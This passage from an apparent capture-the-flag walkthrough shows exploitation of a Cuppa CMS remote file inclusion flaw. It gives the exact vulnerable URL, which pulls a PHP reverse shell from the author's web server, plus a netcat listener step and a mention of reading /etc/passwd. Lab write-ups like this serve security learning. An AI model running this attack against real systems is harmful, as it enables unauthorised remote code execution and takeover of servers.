 Next best step here is to look for any known vulnerabilities for Cuppa CMS as we still require an attack vector to access the machine.

![](Assets/Images/Pasted%20image%2020221205141424.png)

The previous question made it obvious that we're looking for a remote file inclusion vulnerability and this is the only result for Cuppa CMS using Searchsploit.
Based on the .txt we've discovered, interestingly it looks as though there's a vulnerability with the alerts directory of the site which allows users to include local or remote PHP files or read non-PHP files.

This could mean we may be able to view the contents of /etc/passwd or include a link to our own shell running off a http webserver and execute it.

![](Assets/Images/Pasted%20image%2020221205142329.png)

Using a PHP reverse shell I started up a web server and appended my link to the end of the vulnerable URL.

`http://10.10.122.14/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.4.2.138:8000/shell.php?`

![](Assets/Images/Pasted%20image%2020221205142944.png)

Started up a netcat listener on port 1234 and caught the incoming shell:

![](Assets/Images/Pasted%20image%2020221205143446.png)
